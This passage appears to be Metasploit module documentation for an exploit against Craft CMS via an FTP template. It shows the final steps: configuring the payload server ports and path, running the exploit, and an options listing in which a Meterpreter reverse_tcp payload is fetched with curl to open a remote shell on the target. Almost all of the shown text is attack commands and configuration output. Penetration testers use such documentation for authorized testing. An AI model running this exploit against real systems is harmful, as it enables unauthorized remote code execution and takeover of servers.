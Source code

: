 7. Optionally, customize FTP-related settings like `SRVPORT` and `FETCH_URIPATH` if needed:
```bash
set SRVPORT 9090
set FETCH_SRVPORT 8081
set FETCH_URIPATH /custom_payload_path
```

8. Run the exploit:
```bash
exploit
```

**Expected Results**:

If the target is vulnerable, the module will successfully execute the payload and open a session, such as a Meterpreter shell:

```bash
msf6 exploit(linux/http/craftcms_ftp_template) > options

Module options (exploit/linux/http/craftcms_ftp_template):

   Name      Current Setting          Required  Description
   ----      ---------------          --------  -----------
   PASVPORT  0                        no        The local PASV data port to listen on (0 is random)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    exploit-craft.ddev.site  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metaspl
                                                oit.html
   RPORT     80                       yes       The target port (TCP)
   SRVHOST   192.168.1.36             yes       The local host or network interface to listen on. This must be an address on the local machine
                                                 or 0.0.0.0 to listen on all addresses.
   SRVPORT   9090                     yes       The local port to listen on.
   SSL       false                    no        Negotiate SSL for incoming connections
   SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
   VHOST                              no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      QnXFYebbb        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8081             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix/Linux Command Shell

```